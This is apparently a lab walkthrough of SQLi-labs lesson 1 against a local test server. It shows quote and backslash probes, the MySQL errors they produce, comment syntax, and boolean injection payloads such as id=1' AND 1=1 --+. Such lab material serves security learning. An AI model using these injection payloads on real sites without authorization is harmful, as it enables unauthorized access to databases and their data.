




#### 1. Lesson 1

```
http://127.0.0.1/sqli-labs/Less-1/?id=1
http://127.0.0.1/sqli-labs/Less-1/?id=2
http://127.0.0.1/sqli-labs/Less-1/?id=3
```





```sql
select Login name, Password from table where id = [our_input]
```

```sql
select Login name, Password from table where id = 1
select Login name, Password from table where id = 2
select Login name, Password from table where id = 3
```

```
http://127.0.0.1/sqli-labs/Less-1/?id=somevalue
http://127.0.0.1/sqli-labs/Less-1/?id=123snyt
http://127.0.0.1/sqli-labs/Less-1/?id=99999999
```




```
http://127.0.0.1/sqli-labs/Less-1/?id=1"
```



```
http://127.0.0.1/sqli-labs/Less-1/?id=1'
```


```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
```

```
''1'' LIMIT 0,1' at line 1
'  '1'  ' LIMIT 0,1' at line 1
   '1' ' LIMIT 0,1
'   1'    ' LIMIT 0,1
1'
```

Remove the first and the last ```'``` and 3 more quotes will be left out of which 2 of them encapsulate out input

```
http://localhost/sqli-labs/Less-1/?id=1\
```



```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\' LIMIT 0,1' at line 1
```

```
''1\' LIMIT 0,1'
'1\' LIMIT 0,1
1\
```

###### Comments in MySQL

```
--
```

```
#
```

```
/* */
```

```
http://localhost/sqli-labs/Less-1/?id=1'--%20
```


```
http://localhost/sqli-labs/Less-1/?id=1'#%20
http://localhost/sqli-labs/Less-1/?id=1'%23%20
```


```
'1\' LIMIT 0,1
'1'--+     ' LIMIT 0,1
```

```
http://localhost/sqli-labs/Less-1/?id=1
http://localhost/sqli-labs/Less-1/?id=1'
http://localhost/sqli-labs/Less-1/?id=1'--+
```


```
http://127.0.0.1/sqli-labs/Less-1/?id=1' AND 1=1 --+
http://127.0.0.1/sqli-labs/Less-1/?id=1' AND 1=0 --+
```


